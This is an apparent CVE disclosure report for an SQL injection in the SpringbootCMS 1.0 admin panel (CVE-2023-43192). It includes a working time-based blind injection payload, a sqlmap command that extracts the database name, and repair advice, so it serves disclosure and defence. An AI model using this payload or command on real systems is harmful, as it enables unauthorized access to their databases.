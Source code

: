 # The name of an affected Product.
SpringbootCMS
# The affected or fixed version(s).
SpringbootCMS 1.0
# The CVE ID for the entry
CVE-2023-43192
# A prose description
SQL injection can exist ina newly created part of the SpringbootCMS background, and the parameters submitted by users are not filtered. As a result, special characters in parameters destroy the original logic of SQL statements. Attackers can use this vulnerability to execute any SQL statement.
# Other supplement
Hole address: http://ip:8888/admin/div_data/save
The code download address: [https://gitee.com/heyewei/SpringBootCMS.git](https://gitee.com/heyewei/SpringBootCMS.git)
Vulnerability location: After logging in to the system, the custom data of the expanded content, the location of the customer name at the time of creation has sql time blind annotation.
# exploit
Vulnerability point
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506585875-37cef292-a8c7-43f5-b254-1c72c67d0202.png#averageHue=%2368a489&clientId=u7c2a7c15-669d-4&from=paste&height=849&id=u6efc4d54&originHeight=973&originWidth=1913&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=80981&status=done&style=none&taskId=udc6c8f14-6e01-4e87-a7d3-b110595cc16&title=&width=1669.527214829628)
 input 1212' AND (if(left(database(),13)='springbootcms',sleep(5),1)) AND 'OHiO'='OHiO
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506611629-a8c1613e-cba5-43c4-802a-2a5c512d993c.png#averageHue=%23263237&clientId=u7c2a7c15-669d-4&from=paste&height=847&id=u071e8ce6&originHeight=971&originWidth=1906&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=66535&status=done&style=none&taskId=udccb77f4-7f51-49a6-be8f-fb3161d8078&title=&width=1663.4181241323947)
Discovery delay 5 seconds
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507708485-3d288f79-52b7-4044-9716-cd4c69d12286.png#averageHue=%23fbfbfb&clientId=u4204e0bc-9665-4&from=paste&height=715&id=u51b5cb09&originHeight=819&originWidth=1897&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=118649&status=done&style=none&taskId=ub877d790-7c51-4737-bbce-1addbc7fe5f&title=&width=1655.5635789502376)
use sqlmap
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694506759108-873b7b9b-a332-46d6-9d71-3a8da0de34c2.png#averageHue=%23100e0d&clientId=u7c2a7c15-669d-4&from=paste&height=696&id=u2d56c9fc&originHeight=798&originWidth=1789&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=120106&status=done&style=none&taskId=uda4c6798-30d3-4ff6-932a-b97eaa9bf3c&title=&width=1561.3090367643517)
python sqlmap.py -r 127_0_0_1_8888_20230912161737.req --tamper=space2comment --batch --current-db
sql is injected out of the database name.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694507159752-18ebf8bb-589f-4622-8c93-e7e2976b6243.png#averageHue=%230e0d0d&clientId=u4204e0bc-9665-4&from=paste&height=765&id=u1c287bf8&originHeight=877&originWidth=1855&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=155778&status=done&style=none&taskId=u17a93641-0116-471f-a688-0d80e1a0552&title=&width=1618.9090347668375)
# Repair suggestion
(1) Using precompiled statements, using PDO requires care not to concatenate variables directly into PDO statements. All query statements use the parameterized query interface provided by the database, and parameterized statements use parameters instead of embedding user input variables into the SQL statement. At present, almost all database systems provide parameterized SQL statement execution interface, which can effectively prevent SQL injection attacks.
(2) Special characters entering the database (' "<>&*; Etc.) for escape processing, or encoding conversion.
# Website source code
The code is located on line 67 of  src/main/java/com/cms/controller/admin/DivDataController.java
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508026138-9d9a2125-d121-4689-bccf-1bab727f9a12.png#averageHue=%232d2c2b&clientId=u79fd5107-38a1-4&from=paste&height=557&id=uc08618a0&originHeight=638&originWidth=1444&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=115198&status=done&style=none&taskId=u0115bce8-5e44-4230-9a36-b91115905f5&title=&width=1260.2181381149937)
Break point on line 70
It can be seen that 74 lines receive input content and execute insert statements using related methods without filtering or other related operations.
![image.png](https://cdn.nlark.com/yuque/0/2023/png/21570886/1694508334670-ab210cdc-74fe-47c9-babe-e13dd54c33e5.png#averageHue=%23372b2a&clientId=ua60f461a-ae5b-4&from=paste&height=389&id=u5dee2983&originHeight=446&originWidth=1461&originalType=binary&ratio=1.1458333730697632&rotation=0&showTitle=false&size=144816&status=done&style=none&taskId=u9c256ebd-1264-4293-ba0e-23430fee644&title=&width=1275.0545012368461)

